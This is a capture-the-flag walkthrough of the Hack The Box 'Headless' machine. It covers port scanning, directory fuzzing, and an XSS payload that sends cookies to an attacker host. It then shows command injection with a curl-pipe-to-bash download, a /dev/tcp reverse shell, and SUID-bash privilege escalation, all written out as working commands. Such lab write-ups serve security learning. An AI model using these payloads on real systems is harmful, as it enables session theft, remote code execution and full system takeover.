

# [Headless](https://app.hackthebox.com/machines/Headless)

```bash
nmap -p- --min-rate 5000 10.10.11.8 -Pn 
```


After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,5000 10.10.11.8 -Pn
```


From nmap scan result, I see that this ip address is resolved into `headless.htb` domain, let's add this into `/etc/hosts` file for resolving purposes.


I did `Directory Fuzzing` and found `dashboard` and `support` endpoints.
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -u http://10.10.11.8:5000/ -x jsp,txt,csv,xml,js,html,config,pdf,bak
```


I fuzzed the `support` endpoint with XSS paylaods and it worked. Then I submit below `XSS` payload to `User-Agent`.

```bash
<script>var i=new Image(); i.src="http://10.10.14.5:8080/?cookie="+btoa(document.cookie);</script>
```


I can see cookies in my http server's logs.
```bash
python3 -m http.server --bind 10.10.14.5 8080
```


Let's decode this via `base64`.

```bash
echo {encoded} | base64 -d
```


Then I use this cookie while intercepting the request and change `is_admin` cookie value with grabbed one from XSS attack.


Now, there's feature `POST` request accepts user input, I fuzz here with `Command Injection` payloads and it worked.


Let's add our reverse shell payload into here.

First, I need to create malicious `.sh` file.
```bash
/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.14.5/2024 0>&1'
```

Then serve this via http.server.
```bash
python3 -m http.server --bind 10.10.14.5 8080
```


Then submit payload.
```bash
; curl http://10.10.14.5:8080/dr4ks.sh|bash
```


Hola I got reverse shell from port `2024`.


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```




user.txt


For privilege escalation, I just run `sudo -l` command to check privileges of this user.


While I read `/usr/bin/syscheck`, I can see one file called `initdb.sh`.


Let's create `initdb.sh` file with content that copies `/bin/bash` and give `SUID` privilege to copied `/bin/bash` file.
```bash
echo -e "cp /bin/bash /tmp/dr4ks\nchmod 4777 /tmp/dr4ks" > initdb.sh
```


Let's run this copied `/bin/bash` file with `-p` flag to get root shell.

root.txt

